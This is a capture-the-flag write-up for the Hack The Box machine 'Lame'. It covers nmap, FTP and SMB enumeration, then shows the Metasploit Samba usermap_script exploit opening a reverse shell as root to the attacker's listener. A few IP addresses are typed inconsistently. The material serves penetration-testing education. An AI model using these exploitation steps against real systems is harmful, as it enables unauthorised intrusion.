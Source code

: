 # Lame

---

## Setup

Spawned in the machine as always, got the IP and stored it in an environment variable in case I lose it -as always-

```shell
└─$ export IP=10.10.10.10.3
└─$ echo $IP
10.10.10.10.3
```

and to make sure everything is working alright and the target machine is up and running, we can use `ping` to make sure it's alive.

```shell
└─$ ping $IP
PING 10.10.10.10.3 (10.10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.10.3: icmp_seq=1 ttl=63 time=69.3 ms
64 bytes from 10.10.10.10.3: icmp_seq=2 ttl=63 time=68.1 ms
64 bytes from 10.10.10.10.3: icmp_seq=3 ttl=63 time=67.9 ms
64 bytes from 10.10.10.10.3: icmp_seq=4 ttl=63 time=70.4 ms
```

---

## Enumeration

First step after spawning in the target machine and connected to the VPN, I start an [`nmap`](https://nmap.org) scan to determine open ports and running services and may be vulnerable using the following flags:

`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-p-`: Scan all possible ports
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```shell
$ nmap -sV -sC -p- -v -oN scan.nmap $IP
```

The scan is interrupted and nmap suggests `Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn`. This means that the target machine is blocked nmap's ping scan which is its starting step to determine whether the host is up or down, this probably means that the target machine is running Windows OS, so I used the flag `-Pn` to treat the host as alive and skip this initial checking step.

After the scan is complete, here's the result:

```shell
Nmap scan report for 10.10.10.3
Host is up (0.087s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

and some interesting results of the scripts that was run during the scan, a lot of space to to play in.

```shell
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-09-19T02:44:01-04:00
|_clock-skew: mean: 2h00m18s, deviation: 2h49m44s, median: 16s
```

---

## FTP

First, I tried connecting to the FTP server running on the target machine, based on the scan result it showed it allows anonymous login with a blank password, but there wasn't much there, in fact, there was nothing there:

```shell
└─$ ftp ftp://anonymous@$IP
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||41988|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp> bye
221 Goodbye.
```

---

## Samba

Next step I tried enumerating shares in the SMB service running on the target machine and see if there's something there that I can work with:

```shell
└─$ smbclient -L $IP         
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```

the `tmp` share is the only one i could get with anonymous login and blank password:

```shell
└─$ smbclient \\\\$IP\\tmp                                
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 19 03:22:49 2022
  ..                                 DR        0  Sat Oct 31 02:33:58 2020
  cbhaawe                             N        0  Mon Sep 19 03:21:10 2022
  .ICE-unix                          DH        0  Mon Sep 19 02:40:56 2022
  vmware-root                        DR        0  Mon Sep 19 02:41:24 2022
  .X11-unix                          DH        0  Mon Sep 19 02:41:22 2022
  .X0-lock                           HR       11  Mon Sep 19 02:41:22 2022
  vgauthsvclog.txt.0                  R     1600  Mon Sep 19 02:40:54 2022
  5574.jsvc_up                        R        0  Mon Sep 19 02:41:59 2022

                7282168 blocks of size 1024. 5386512 blocks available
smb: \> 
```

 I downloaded all the files I had access to; `vgauthsvclog.txt.0`, `.X0-lock` but got me to nowhere, so I started searching online for Samba exploitations, since FTP had really nothing to even work with..

 ---

## Exploitation 

after quite some time reading online on Samba version 3.0.2 I came across `CVE-2007-2447`, read more [here](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447), I also used [exploitdb](https://github.com/offensive-security/exploitdb) to see if there's anything I can use:

```shell
└─$ /opt/exploitdb/searchsploit samba 3.0.2
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                     | unix/remote/16320.rb
````

Awesome, a metasploit exploit that I can use, I launched `msfconsole` and used:

```shell
└─$msfconsole

...

msf6 > search samba    

....
   8   exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
....

msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.16.4
lhost => 10.10.16.4
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.4:4444 
[*] Command shell session 1 opened (10.10.16.4:4444 -> 10.10.10.3:54174 ) at 2022-09-19 03:19:21 -0400

whoami
root
shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
whoami
whoami
root
root@lame:/#
````

I'm in! the root flag was found on `/root/root.txt` and user flag in `/home/makis/user.txt`
